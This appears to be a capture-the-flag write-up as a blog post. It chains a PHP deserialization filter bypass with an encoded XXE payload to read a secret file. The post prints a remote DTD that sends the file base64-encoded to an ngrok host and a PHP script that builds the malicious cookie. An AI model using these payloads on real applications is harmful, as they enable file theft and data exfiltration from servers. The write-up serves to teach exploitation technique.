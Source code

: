 ```yaml
---
layout: post
title:  "DOUBLE WAFFL3"
date:   2022-03-08 12:47:20 -0500
categories: jekyll update
---
```

## Introduction

In this challenge we will take advantage of PHP deserialization attack to send our XXE payload through HTTP Cookies, But first we have to Bypass 2 WAFS! let’s get started. 

### Code Analysis
*index.php* 
We can see below a new object is defined of type XmlParserModel passing to it the .env file, we will get back to this class later. The interesting part here is were the application defines a cookie of type UserModel, moving forward it serializes the cookie and sends it back the the user as shown below.
php
new XmlParserModel(file_get_contents('.env'));

if (empty($_COOKIE['PHPSESSID']))
{
    $user = new UserModel;
    $user->username = substr(uniqid('guest_'), 0, 10);
    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($user)), 
        time()+60*60*24, 
        '/'
    );
}

Two different routes are defined within the application
*index.php* 
php 
$router = new Router();

$router->new('GET', '/', fn($router) => $router->view('menu'));
$router->new('POST', '/api/order', 'OrderController@order');

*POST* requests to /api/order route calls the order() function from its  OrderController.php module, let’s check it out.
*OrderController.php* 
php 
class OrderController
{
    public function order($router)
    {
        $body = file_get_contents('php://input');
        $cookie = base64_decode($_COOKIE['PHPSESSID']);
        safe_object($cookie);
        $user = unserialize($cookie);

Now Let’s take a look into the safe_object() function 
*OrderController.php* 
php 
function safe_object($serialized_data)
{
    $matches = [];
    $num_matches = preg_match_all('/(^|;)O:\d+:"([^"]+)"/', $serialized_data, $matches);

    for ($i = 0; $i < $num_matches; $i++) {
        $methods = get_class_methods($matches[2][$i]);
        foreach ($methods as $method) {
            if (preg_match('/^__.*$/', $method) != 0) {
                die("Unsafe method: ${method}");
            }}}}

So what this function does briefly is that it takes the serialized payload and uses regex to search for the occurrences of `o:<some number>:"<class name>"`, extracts the class name, and calls *get_class_methods()* function to check for all functions of a class, iterates over them, if a PHP magic method such as *constructor, **wakeup* .. etc is found, it will match the second regex, thus the application will call *die()* to end the application. 

Before trying to bypass the WAF, we have to build our PHP gadget, we have to find a useful class that uses any magic methods. 

*XmlParserModel.php*
php 
 <?php
class XmlParserModel
{
    private string $data;
    private array $env;

    public function __construct($data)
    {
      
        $this->data = $data;
    }

    public function __wakeup()
    {
        if (preg_match_all("/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im", $this->data))
        {
            die('Unsafe XML');
        }
        $env = @simplexml_load_string($this->data, 'SimpleXMLElement', LIBXML_NOENT);

        if (!$env) 
        {
            die('Malformed XML');
        }

        foreach ($env as $key => $value)
        {
            $_ENV[$key] = (string)$value;
        }
    }

}

 
As we can see above, this class uses  *__wakeup(), and uses regex again to check for malicious XXE payload, it filters the occurrence of *<!ENTITY file SYSTEM "file:///path/to/file">**. if a match is found, the application is suspended, else it will parse the XML.
### Building the exploit 
In order to build our exploit, we have to create a new serialized object of type *XmlParserModel* and set the *$data* to XXE payload that reads the flag, but first let’s bypass the *safe_object()*

### KILL WAF #1
Inspired from the [Composr CMS Remote Code Execution](https://github.com/MegadodoPublications/exploits/blob/master/composr.md), We can easily bypass the poor regex by defining an array object with a string of value *";O:2:"* at index 0, then passing our malicious object to the next index.
For example, In the payload below, the regex will match *;O:10, as if it’s a class name, bypassing the *get_class_methods()**
markdown 
// a:1:{s:5:";O:2:";O:10:"HelloWorld":0:{}};
//           ^           ^
// match   begin        end

### KILL WAF #2 
The XXE WAF can be bypassed through HTML encoding our malicious crafted entity, but to make things easier, we will exfiltrate data through an out-of-band OBB channel using HTTP by utilizing parameter entities, we will use *<!ENTITY % dtd SYSTEM "http://attackerserver.com/malc.dtd" >* to refer to a DTD defined and hosted on our remote server, and that’s for the purpose of bypassing the regex once only. 
We can now craft our payload and save it into a file, then host it. 

*malc.dtd* 
xml 
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/secret">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://8cda-188-247-74-33.ngrok.io/bypass.xml?%data;'>">
%abt; 
 
Now creating our XXE payload, First let’s define our private entity to import the remote the DTD. 
xml 
<!ENTITY % dtd SYSTEM "http://8cda-188-247-74-33.ngrok.io/malc.dtd" > 
 
HTML encoding is equivalent to:  
markdown
&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;
&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;
&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;
&#x3a;&#x2f;&#x2f;&#x38;&#x63;&#x64;&#x61;&#x2d;&#x31;
&#x38;&#x38;&#x2d;&#x32;&#x34;&#x37;&#x2d;&#x37;&#x34;
&#x2d;&#x33;&#x33;&#x2e;&#x6e;&#x67;&#x72;&#x6f;&#x6b;
&#x2e;&#x69;&#x6f;&#x2f;&#x6d;&#x61;&#x6c;&#x63;&#x2e;
&#x64;&#x74;&#x64;&#x22;&#x20;&#x3e;

Inject the entity into the DOCTYPE: 
xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % a "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x38;&#x63;&#x64;&#x61;&#x2d;&#x31;&#x38;&#x38;&#x2d;&#x32;&#x34;&#x37;&#x2d;&#x37;&#x34;&#x2d;&#x33;&#x33;&#x2e;&#x6e;&#x67;&#x72;&#x6f;&#x6b;&#x2e;&#x69;&#x6f;&#x2f;&#x6d;&#x61;&#x6c;&#x63;&#x2e;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3e;" >
  %a; 
  %dtd;
]>
<data><env>&exfil;</env></data>
 
 
## Final Exploit  
Our final exploit will look like  
php 
  <?php

class XmlParserModel { 

	public function __construct($data)
    {	

    	$this->data = $data; 
    } 

}
$exploit = serialize([";O:2:" => new XmlParserModel('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x38;&#x63;&#x64;&#x61;&#x2d;&#x31;&#x38;&#x38;&#x2d;&#x32;&#x34;&#x37;&#x2d;&#x37;&#x34;&#x2d;&#x33;&#x33;&#x2e;&#x6e;&#x67;&#x72;&#x6f;&#x6b;&#x2e;&#x69;&#x6f;&#x2f;&#x6d;&#x61;&#x6c;&#x63;&#x2e;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3e;" >%a;%dtd;]><data><env>&exfil;</env></data>')]);
echo base64_encode($exploit); 
 
?>
